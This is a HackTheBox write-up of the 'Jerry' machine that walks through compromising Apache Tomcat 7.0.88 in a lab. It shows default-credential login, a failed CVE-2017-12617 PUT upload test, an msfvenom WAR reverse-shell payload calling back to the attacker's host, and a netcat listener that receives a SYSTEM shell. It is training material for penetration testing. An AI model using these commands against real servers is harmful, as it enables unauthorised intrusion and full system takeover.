 ```yaml
---
title: HTB | Jerry
author: Zeropio
date: 2022-12-23
categories: [Pentesting, HackTheBox]
tags: [htb, windows, easy, machines]
permalink: /pentesting/htb/machines/jerry
---
```


![HTB Img](/assets/img/hackthebox/card/Jerry.png)

# Fingerprint

## Scan
The scan only show us:
```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
```


## Enumeration
The default page can be seen in the port 8080:

![][/assets/img/hackthebox/labs/jerry/Pasted image 20221223203436.png]

Every administrator page ask for credentials. Finally, the credentails `admin:admin` will work, but this will not grant access to the **Host Manager** panel. But we can see there a reference to some possible credentials:

```xml
<role rolename="admin-gui"/>
<user username="tomcat" password="s3cret" roles="admin-gui"/>
```

With these credentials we can now enter in the **Manager App**.

---

# Footprint
## Initial Access
For this version we can search for the CVE-2017-12617, without success manually...:

```jsp
<% out.write("<html><body><h3>[+] JSP file successfully uploaded via curl and JSP out.write  executed.</h3></body></html>"); %>
```

```console
$ curl -X PUT http://10.10.10.95:8080/test.jsp/ -d @- < test.jsp
$ curl http://10.10.10.95:8080/test.jsp                     
<html><head><title>Apache Tomcat/7.0.88 - Error report</title>
```

...or automatized:
```console
$ python3 42966.py -u http://10.10.10.95:8080/

Poc Filename  Poc.jsp
Not Vulnerable to CVE-2017-12617 
```

But we can try an upload attack of a WAR file. This is a basic Tomcat attack. First we create the shell:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=80 -f war > shell.war
```
Start a netcat and upload the file. Now we have a new entry:

![][/assets/img/hackthebox/labs/jerry/Pasted image 20221223234606.png]

Loading the web in the `/shell`{: .filepath} path will start the reverse shell.
```console
$ nc -lvnp 80  
listening on [any] 80 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

We are currently Administrator, so there aren't privilege escalation.
